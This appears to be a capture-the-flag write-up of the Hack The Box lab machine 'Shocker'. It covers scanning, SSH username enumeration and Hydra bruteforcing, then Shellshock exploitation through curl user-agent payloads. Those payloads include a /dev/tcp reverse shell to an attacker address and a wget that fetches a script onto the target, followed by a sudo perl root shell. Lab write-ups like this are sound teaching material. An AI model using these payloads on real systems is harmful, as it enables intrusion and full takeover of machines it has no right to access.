 ```yaml
---
title: "Hack The Box \"Shocker\" Writeup"
date: 2023-10-01T00:12:29-04:00
draft: false
---
```


[Shocker](https://app.hackthebox.com/machines/Shocker) is a
retired easy Linux box by mrb3n. It was released on October
3rd, 2017.

## Scanning

I began by scanning the machine:
```
$ nmap -A -T4 10.10.10.56
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-30 21:59 EDT
Nmap scan report for 10.10.10.56
Host is up (0.031s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4f8ade8f80477decf150d630a187e49 (RSA)
|   256 228fb197bf0f1708fc7e2c8fe9773a48 (ECDSA)
|_  256 e6ac27a3b5a9f1123c34a55d5beb3de9 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We have Apache running on port 80 and OpenSHH on port 2222.

## Enumeration

### Port 2222

I usually start with SSH because if password bruteforcing
seems to be a valid avenue, it's best to start it early.
Let's attempt to connect to the server:

```bash
$ ssh 10.10.10.56 -p 2222
```

We are asked for a password--password authentication is
enabled. Next, let's see if there are any salient
vulnerabilities for this version of OpenSSH, 7.2p2.

```
$ searchsploit openssh 7.2p2
-------------------------------------- -----------------------
 Exploit Title                        |  Path
-------------------------------------- -----------------------
OpenSSH 7.2p2 - Username Enumeration  | linux/remote/40136.py
OpenSSHd 7.2p2 - Username Enumeration | linux/remote/40113.txt
-------------------------------------- -----------------------
```

Sure enough, this version is vulnerable to username
enumeration through a side-channel timing attack when
submitting very long passwords. I downloaded the script, set
up a virtual environment, installed the dependencies, and
monkey-patched `time.clock = time.time` because the former
was deprecated. I ran it multiple times with a small list of
17 usernames--the following is one output:

```
./40136.py -U usernames.txt 10.10.10.56:2222 --samples 64 --trials 32
...
[*] Baseline mean for host 10.10.10.56 is 0.36141190990324945 seconds.
[*] Baseline variation for host 10.10.10.56 is 0.003058627316928219 seconds.
[*] Defining timing of x < 0.3705877918540341 as non-existing user.
[*] Testing your users...
[-] root - timing: 0.3622346520423889
[-] admin - timing: 0.3608233258128166
[-] test - timing: 0.36106352508068085
[-] guest - timing: 0.3625797629356384
[+] info - timing: 0.3719070628285408
[-] adm - timing: 0.36521296203136444
[-] mysql - timing: 0.3658187761902809
[-] user - timing: 0.3619757816195488
[-] administrator - timing: 0.3607597276568413
[-] oracle - timing: 0.3613279387354851
[-] ftp - timing: 0.3622165694832802
[-] pi - timing: 0.36343473941087723
[-] puppet - timing: 0.36332932114601135
[-] ansible - timing: 0.36283544450998306
[-] ec2-user - timing: 0.362905390560627
[-] vagrant - timing: 0.36412063241004944
[-] azureuser - timing: 0.3640487641096115
```

I found the results across iterations to be inconsistent and
unconvincing, though the user `info` was returned
consistently enough for me to run Hydra against the service
with a small password list of the top 1,000 most common
passwords:

```bash
hydra -l info -P 1000-passwords.txt ssh://10.10.10.56:2222 -t 4
```

### Port 80

While Hydra is running, let's check out the website:

![](/images/hack-the-box-shocker-writeup/website.jpg)

This is the only content, and there's nothing interesting in
the source. Let's try directory fuzzing with Gobuster:

```bash
gobuster dir --url http://10.10.10.56/ --wordlist dirb.txt
```

While that was running, I researched vulnerabilities in
version 2.4.18 of Apache. I didn't find anything
particularly relevant for version 2.4.18 but I did find an
interesting [privilege escalation
vulnerability](https://www.exploit-db.com/exploits/46676)
that I might've been able to use later.

Gobuster returned the following:
```
/cgi-bin/      (Status: 403) [Size: 294]
/.hta          (Status: 403) [Size: 290]
/.htaccess     (Status: 403) [Size: 295]
/.htaccess     (Status: 403) [Size: 295]
/.htpasswd     (Status: 403) [Size: 295]
/.htpasswd     (Status: 403) [Size: 295]
/index.html    (Status: 200) [Size: 137]
/server-status (Status: 403) [Size: 299]
/server-status (Status: 403) [Size: 299]
```

Let's run it again on `/cgi-bin/`:
```
$ gobuster dir --url http://10.10.10.56:/cgi-bin/ --wordlist cgibin.txt
...
/user.sh              (Status: 200) [Size: 118]
```

I made my own set of wordlists for `/cgi-bin/` enumeration
which I used for this box because I was dissatisfied with
existing lists. You can get them
[here](https://github.com/sawshep/cgi-bin/enum-wordlists).

Anyways, let's make a request to the script:

```
$ curl http://10.10.10.56:80/cgi-bin/user.sh
Content-Type: text/plain

Just an uptime test script

 01:47:41 up 3 min,  0 users,  load average: 0.03, 0.07, 0.03
```

As is self-described, it's a script that runs `uptime`. This
server could possibly be vulnerable to
[Shellshock](https://nvd.nist.gov/vuln/detail/CVE-2014-6271),
an attack that exploits a vulnerability in how Bash
processes environment variables to remotely execute
arbitrary code. That's why I didn't see it when initially
researching vulnerabilities for the web server--it's
technically a vulnerability in Bash.

## Exploitation

Let's see if Shellshock works:
```
$ curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'echo Vulnerble!'" http://10.10.10.56:80/cgi-bin/user.sh
Vulnerable!
```

Sure enough, we get a response back from the server of the
output of our command! Let's pop a reverse shell. We'll
start by listening on our host:

```bash
ncat -lvnp 4444
```

Then, we'll connect to the listener on the target through
Shellshock. I used Bash's virtual TCP files to connect as
Netcat was not present on the system:

```
$ curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'sh -i >& /dev/tcp/10.10.14.9/4444 0>&1'" http://10.10.10.56:80/cgi-bin/user.sh
$ whoami
shelly
```

Great! We can get the user flag with `cat
/home/shelly/user.txt`.

## Privilege Escalation

Next, I transferred over the [Linux Smart Enumeration
tool](https://github.com/diego-treitos/linux-smart-enumeration)
Because I only have port 4444 opened on my firewall for Hack
The Box, I had to drop the shell, serve the script on an
HTTP server, and use Shellshock to download it:

```bash
$ curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'wget http://10.10.14.9:4444/lse_cve.sh -O /tmp/lse.sh'" http://10.10.10.56:80/cgi-bin/user.sh
```

After marking it executable and running it, I found some
interesting information:

```
...
[!] sud010 Can we list sudo commands without a password?... yes!
...
[!] ctn210 Is the user a member of any lxc/lxd group?...... yes!
...
```

Being a member of the LXC group allows us to mount the root
filesystem in a container and read files which we do not
normally have the privilege to read. Before proceeding with
that exploit, let's check what we can run with `sudo`:

```
$ sudo -l
...
User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```

Being able to run Perl as `root` with no password is much
easier to exploit than being a member of the LXC group.
Let's open a shell as `root`:

```bash
sudo perl -e 'exec "/bin/sh";'
```

Finally, we can read `/root/root.txt` and pwn the machine
for good.
